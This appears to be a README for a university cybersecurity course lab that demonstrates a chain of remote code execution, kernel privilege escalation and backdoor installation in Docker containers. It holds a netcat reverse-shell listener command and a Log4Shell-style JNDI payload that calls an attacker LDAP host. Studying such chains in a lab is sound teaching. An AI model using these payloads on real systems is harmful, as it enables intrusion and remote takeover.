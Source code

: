 # A Practical Demonstration of an Exploitation Chain: From Remote Code Execution to Full System Compromise

## Project Overview

This project is developed as part of the **Cybersecurity** course at the **University of Messina**.  
It presents a practical demonstration of an exploitation chain involving:

- **Remote Code Execution (RCE)** via a vulnerable web application
- **Privilege Escalation** through kernel-level exploitation
- **Installation of a persistent backdoor** for post-exploitation access

All components run within a Dockerized lab environmen.

## Requirements

- **Linux Kernel 5.8.x**  
  (Tested with `5.10.0-19`, default in Ubuntu 21.04)
  You can use `name -r` to check your kernel version
- **Docker** and **Docker Compose**

---

##  Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/your-username/rce-to-full-compromise-demo.git
cd rce-to-full-compromise-demo
```
### 2. Build and Start the Environment
```bash
docker-compose up --build
```
This will build all containers (attacker, backend, and database) and start the application

### 3. Access the Target Web
Through your browser visit:
```
http://localhost:8080/
```
% This interface contains a vulnerable component through which
% the initial Remote Code Execution (RCE) is performed.
%
### 4. Set Up the Attacker Listener
In a new terminal, open a shell inside the attacker container
```bash
docker exec -it attacker bash
```
Start a Netcat listener to wait for the reverse shell:
```bash
nc -lp 6666
```

This listen for the reverse shell triggered by the exploit.
### Start the Exploit via Web Interface
Using the vulnerable form on the frontend site submit the payload `${jndi:ldap://attacker:1389/Exploit}`
